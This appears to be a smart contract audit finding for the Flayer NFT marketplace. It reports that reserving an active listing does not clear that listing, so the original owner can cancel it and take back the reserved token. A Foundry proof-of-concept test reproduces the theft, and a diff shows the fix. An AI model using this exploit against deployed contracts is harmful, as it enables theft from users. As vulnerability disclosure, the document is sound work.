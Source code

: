 Wobbly Neon Hyena

High

# Users can cancel listings even after having them being reserved

### Summary

Users can reserve tokens using `Listings::reserve`, when doing so, a new protected listing is created for the caller. Reservation can be made on both tokens deposited directly into the locker or from active listings.
However, when reserving from active listings, the listing data is not cleared at the end of the TX, so when the TX ends, there will be 2 listings for the same token, a protected and a normal listing.

After reservation, which includes the caller some collateral in front, the owner of the original non-protected listing will be able to call `Listings::cancel`, allowing him to sweep the token from the locker, the protected listing will end up having no tokens.

This allows original listings' owners to steal tokens that other users have reserved.

### Root Cause

`Listings::reserve` doesn't clear any data about the active listing that has been reserved from, [here](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L690-L759).

### Impact

Users can steal tokens that other users have reserved.

### PoC

Add the following test in `flayer/test/Listings.t.sol`:

```solidity
function test_CanCancelReservedListing() public {
    ICollectionToken collectionToken = ICollectionToken(
        locker.collectionToken(address(erc721a))
    );
    address bob = address(1);
    uint256 _tokenId = 0;

    erc721a.mint(address(this), _tokenId);
    deal(address(collectionToken), bob, 2 ether);
    deal(address(collectionToken), address(this), 1 ether);

    // Creates a listing for the token
    IListings.CreateListing[]
        memory _listings = new IListings.CreateListing[](1);
    erc721a.setApprovalForAll(address(listings), true);
    _listings[0] = IListings.CreateListing({
        collection: address(erc721a),
        tokenIds: _tokenIdToArray(_tokenId),
        listing: IListings.Listing({
            owner: payable(address(this)),
            created: uint40(block.timestamp),
            duration: 10 days,
            floorMultiple: 200
        })
    });
    listings.createListings(_listings);

    // Listing is owned by the contract
    assertEq(
        listings.listings(address(erc721a), _tokenId).owner,
        address(this)
    );

    // Bob reserves the listing
    vm.startPrank(bob);
    collectionToken.approve(address(listings), type(uint).max);
    listings.reserve(address(erc721a), _tokenId, 0.5 ether);
    vm.stopPrank();

    // Protected listing is created
    assertEq(
        protectedListings.listings(address(erc721a), _tokenId).owner,
        bob
    );
    // Listing wasn't cleared
    assertEq(
        listings.listings(address(erc721a), _tokenId).owner,
        address(this)
    );

    // Cancel the listing
    collectionToken.approve(address(listings), type(uint).max);
    listings.cancelListings(
        address(erc721a),
        _tokenIdToArray(_tokenId),
        false
    );

    // Listing is cleared
    assertEq(
        listings.listings(address(erc721a), _tokenId).owner,
        address(0)
    );
    // Protected listing still exists
    assertEq(
        protectedListings.listings(address(erc721a), _tokenId).owner,
        bob
    );
    // NFT is owned by the contract
    assertEq(erc721a.ownerOf(_tokenId), address(this));
}
```

### Mitigation

When reserving an active listing, make sure to clear all data related to that listing in `Listings::reserve`:

```diff
function reserve(
    address _collection,
    uint256 _tokenId,
    uint256 _collateral
) public nonReentrant lockerNotPaused {
    // Read the existing listing in a single read
    Listing memory oldListing = _listings[_collection][_tokenId];

    ...

    // We can now transfer ownership of the listing to the user reserving it
    protectedListings.transferOwnership(
        _collection,
        _tokenId,
        payable(msg.sender)
    );

+   delete _listings[_collection][_tokenId];
+   delete _isLiquidation[_collection][_tokenId];
}
```